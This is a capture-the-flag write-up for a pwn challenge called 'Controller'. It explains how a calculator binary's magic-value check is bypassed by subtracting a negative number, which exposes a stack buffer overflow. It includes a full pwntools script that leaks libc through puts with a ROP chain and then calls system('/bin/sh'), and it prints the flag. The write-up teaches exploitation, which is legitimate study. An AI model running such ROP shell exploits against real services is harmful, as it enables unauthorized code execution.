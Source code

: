 # Controller

## Challenge

We're given a binary that runs a command line calculator application and a libc file.

The calculator offers 4 operations: addition, subtraction, multiplication, and division.

### Mitigations

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Solution

In the `calculator` function, we can see that an output of 0xff3a will result in a special path.

```c
void sym.calculator(void)
{
    int64_t var_20h;
    uint32_t var_4h;
    
    var_4h = sym.calc();
    if (var_4h == 0xff3a) {
        sym.printstr("Something odd happened!\nDo you want to report the problem?\n> ");
        sym.imp.__isoc99_scanf(0x4013e6, &var_20h);
        if (((char)var_20h == *(char *)0x4013e9) || ((char)var_20h == *(char *)0x4013eb)) {
            sym.printstr((char *)0x4013ed);
        } else {
            sym.printstr("Problem ingored\n");
        }
    } else {
        sym.calculator();
    }
    return;
}
```

However, the inputs must be less than or equal to 0x45:

```c
var_8h = sym.menu();
if ((0x45 < (int32_t)var_10h._4_4_) || (0x45 < (int32_t)(uint32_t)var_10h)) {
    sym.printstr("We cannot use these many resources at once!\n");
    sym.imp.exit();
}
```

The intended solution appears to be an integer overflow (see the flag), but the simpler method is to subtract a negative number, which is essentially addition.

```py
io.recvuntil(":")
io.sendline("0 -65338")

io.recvuntil(">")
io.sendline("2")
```

This will subtract -65338 (-0xff3a) from 0.
The result of this operation is 65338 (0xff3a).

We now have a call to `__isoc99_scanf` which we can use to perform a standard buffer overflow:

```c
sym.printstr("Something odd happened!\nDo you want to report the problem?\n> ");
sym.imp.__isoc99_scanf(0x4013e6, &var_20h);
if (((char)var_20h == *(char *)0x4013e9) || ((char)var_20h == *(char *)0x4013eb)) {
    sym.printstr((char *)0x4013ed);
} else {
    sym.printstr("Problem ingored\n");
}
```

## Exploit

```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host localhost --port 1337 controller
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('controller')
libc = ELF('libc.so.6')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'localhost'
port = int(args.PORT or 1337)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

io.recvuntil(":")
io.sendline("0 -65338")

io.recvuntil(">")
io.sendline("2")

calculator = exe.sym["calculator"]
puts_got = exe.got["puts"]
puts_plt = exe.plt["puts"]

rop = ROP(exe)
pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]
ret = rop.find_gadget(["ret"])[0]

io.recvuntil("problem?")
payload = flat({
    0:"Y",
    0x20 + 8:[
        pop_rdi,
        puts_got,
        puts_plt,
        calculator,
        ]
    })

io.sendline(payload)

io.recvuntil("!")
io.recvline()

libc.address = u64(io.recvline()[:-1].ljust(8,'\x00')) - libc.sym["puts"]
io.success(hex(libc.address))

io.recvuntil(":")
io.sendline("0 -65338")

io.recvuntil(">")
io.sendline("2")

bin_sh = next(libc.search("/bin/sh"))
system = libc.sym["system"]

payload = flat({
    0:"Y",
    0x20 + 8:[
        ret,
        pop_rdi,
        bin_sh,
        system,
        ]
    })

io.sendline(payload)

io.interactive()
```

## Flag

`CHTB{1nt3g3r_0v3rfl0w_s4v3d_0ur_r3s0urc3s}`

